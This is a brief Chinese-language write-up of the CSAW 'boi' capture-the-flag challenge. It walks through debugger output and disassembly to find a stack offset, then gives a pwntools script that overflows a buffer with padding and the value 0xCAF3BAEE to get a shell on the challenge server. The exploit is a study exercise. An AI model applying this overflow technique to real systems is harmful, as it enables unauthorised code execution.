 ```bash
[-------------------------------------code-------------------------------------]
   0x40069b <main+90>:	mov    edi,0x0
   0x4006a0 <main+95>:	call   0x400500 <read@plt>
   0x4006a5 <main+100>:	mov    eax,DWORD PTR [rbp-0x1c]
=> 0x4006a8 <main+103>:	cmp    eax,0xcaf3baee
   0x4006ad <main+108>:	jne    0x4006bb <main+122>
   0x4006af <main+110>:	mov    edi,0x40077c
   0x4006b4 <main+115>:	call   0x400626 <run_cmd>
   0x4006b9 <main+120>:	jmp    0x4006c5 <main+132>
[------------------------------------stack-------------------------------------]
0000| 0x7ffd1313f360 --> 0x7ffd1313f488 --> 0x7ffd131402a8 --> 0x545100696f622f2e ('./boi')
0008| 0x7ffd1313f368 --> 0x10040072d 
0016| 0x7ffd1313f370 ('a' <repeats 16 times>, "\356\272\363\312\n\276\255", <incomplete sequence \336>)
0024| 0x7ffd1313f378 ("aaaaaaaa\356\272\363\312\n\276\255", <incomplete sequence \336>)
0032| 0x7ffd1313f380 --> 0xdeadbe0acaf3baee 
0040| 0x7ffd1313f388 --> 0x0 
0048| 0x7ffd1313f390 --> 0x7ffd1313f480 --> 0x1 
0056| 0x7ffd1313f398 --> 0xcc79c30a8da0b800 
[------------------------------------------------------------------------------] blue
Legend: code, data, rodata, value
0x00000000004006a8 in main ()
gdb-peda$ p $eax
$1 = 0xdeadbe0a
```

idaF5看不出什么东西，直接切汇编

```c
mov     dword ptr [rbp+v6+4], 0DEADBEEFh
mov     edi, offset s   ; "Are you a big boiiiii??"
call    _puts
lea     rax, [rbp+buf]
mov     edx, 18h        ; nbytes
mov     rsi, rax        ; buf
mov     edi, 0          ; fd
call    _read
mov     eax, dword ptr [rbp+v6+4]
cmp     eax, 0CAF3BAEEh
jnz     short loc_4006BB
```

这里我们可以很简单就看出原因所在，eax所存的指针指向的是rbp-0x20+4而buf的首地址是指向rbp-0x30,而if语句比较的相当于在0x4006A8时的eax寄存器的值与0xCAF3BAEE是否相等，而两者的差值并非是v6与buf在栈上的距离，而实际的距离应该是0x30-0x20+4

EXP

```python
from pwn import*
context(os='linux',arch='amd64',log_level='debug')
#n = process('./boi')
n = remote('pwn.chal.csaw.io',9000)
payload = 'a'*(0x30-0x20+0x4)+p32(0xCAF3BAEE)
n.recvuntil('??')
#gdb.attach(n)
n.sendline(payload)

n.interactive()
```
